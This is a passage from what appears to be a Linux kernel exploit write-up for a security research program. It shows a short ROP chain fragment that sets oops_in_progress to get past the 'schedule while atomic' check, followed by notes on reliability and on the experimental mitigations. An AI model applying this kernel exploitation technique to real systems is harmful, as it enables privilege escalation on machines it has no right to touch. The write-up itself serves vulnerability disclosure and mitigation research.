 ```c
	// Bypass "schedule while atomic": set oops_in_progress = 1 
	rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
	rop[idx++] = 1;                          // 1
	rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
	rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
	rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)
```

If `oops_in_progress` contains a non-zero value indeed, [__schedule_bug()](https://elixir.bootlin.com/linux/v6.1/source/kernel/sched/core.c#L5730) will simply return without triggering any error, and we will be able to gracefully return to userspace.

# Additional information

In my local environment, exploit reliability was around 30-40%, on the remote instance around 20-30%. It would be very helpful if in the future we could have access to a copy of the remote qemu image for debugging purposes, especially for the mitigation instance.

Considering that my original exploit for this vulnerability for a system without experimental mitigations was only ~150 lines of code, did not require user namespaces, and was very stable, the experimental mitigations, despite being bypassed by the technique described above, are very effective and have successfully stopped many of my other exploitation strategies. I will probably cover some of these failed (but very interesting!) attempts on [my blog](https://syst3mfailure.io).